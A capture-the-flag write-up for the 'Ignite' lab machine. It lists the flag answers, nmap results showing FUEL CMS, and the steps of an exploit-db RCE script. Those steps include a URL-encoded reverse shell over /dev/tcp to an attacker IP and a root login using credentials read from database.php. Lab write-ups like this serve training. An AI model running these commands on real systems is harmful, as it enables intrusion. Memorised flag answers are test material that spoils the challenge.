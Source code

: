 # Ignite
##### Question 1: user flag
Answer
```bash
6470e394cbf6dab6a91682cc8585059b
```

##### Question 2:Root Flag
Answer
```bash
b9bbcb33e11b80be759c4e844862482d
```

- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -

Nmap Scans:
```bash

Nmap scan report for 10.10.236.194
Host is up (0.10s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/fuel/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Welcome to FUEL CMS
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:


```

RCE: https://www.exploit-db.com/exploits/49487
```bash
gem install docopt

ruby 49487.rb http://10.10.236.194/ 'whoami'



# echo rev shell to file
ruby 49487.rb http://10.10.236.194/ 'echo%20%22sh%20%2Di%20%3E%26%20%2Fdev%2Ftcp%2F10%2E6%2E32%2E32%2F1234%200%3E%261%22%20%3E%20%20test%2Esh'

# make it executable
ruby 49487.rb http://10.10.236.194/ 'chmod%20%2Bx%20test%2Esh'

# Get Shell
ruby 49487.rb http://10.10.236.194/ 'bash%20test%2Esh'

```

```bash

priv esc - root creds

cat /var/www/html/fuel/application/config/database.php
root:mememe

su root

```